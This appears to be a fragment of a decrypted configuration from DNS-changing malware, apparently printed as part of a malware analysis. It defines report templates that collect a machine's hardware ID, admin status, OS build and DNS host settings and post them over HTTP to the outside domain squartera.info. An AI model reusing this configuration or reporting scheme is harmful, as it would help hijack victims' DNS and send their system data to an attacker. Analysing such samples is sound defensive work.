 ```sh
                    expand = true;
                    "external_id" = "%external_id%";
                    "hardware_id" = "%hardware_id%";
                    "is_admin" = "%is_admin%";
                    "old_dns" =                     {
                        "hosts_active" = "%hosts_active%";
                        "hosts_config" = "[templates->old_secondary_dns]";
                    };
                    "os_build" = "%os_build%";
                    "os_id" = "%os_id%";
                    "product_name" = "%product_name%";
                    "publisher_id" = "%publisher_id%";
                    "register_date" = "%register_date%";
                    "register_dsrc" = "%register_dsrc%";
                    "report_id" = "%report_id%";
                    "report_name" = "dnsChanger_activity";
                    "report_type" = 8;
                    "screen_x" = "%screen_x%";
                    "screen_y" = "%screen_y%";
                    "service_pack" = "%service_pack%";
                    "session_id" = "%session_id%";
                    status = "%status%";
                    tag = "%tag%";
                    tracker = "%tracker%";
                    "user_time" = "%user_time%";
                    version = "%version%";
                };
                "url_path" = "";
            };
            "time_report" =             {
                async = false;
                body = "r={dnsChanger->reports->time_report->template}&rc={dnsChanger}";
                "connection_timeout" = 5;
                domains =                 (
                    "squartera.info"
                );
                "http_headers" =                 (
                                        {
                        name = "Content-Type";
                        value = "application/x-www-form-urlencoded";
                    },
                                        {
                        name = "User-Agent";
                        value = "";
                    }
                );
                "query_string" = "";
                "request_method" = 2;
                "request_timeout" = 5;
                "retry_count" = 2;
                "send_port" = 80;
                "send_protocol" = http;
                template =                 {
                    affiliate = "%affiliate%";
                    build = "%build%";
                    "compilation_id" = "%compilation_id%";
                    dns =                     {
                        "hosts_active" = "%hosts_active%";
                        "hosts_config" = "[templates->secondary_dns]";
                    };
                    encrypt = true;
                    "exception_id" = "%exception_id%";
                    expand = true;
```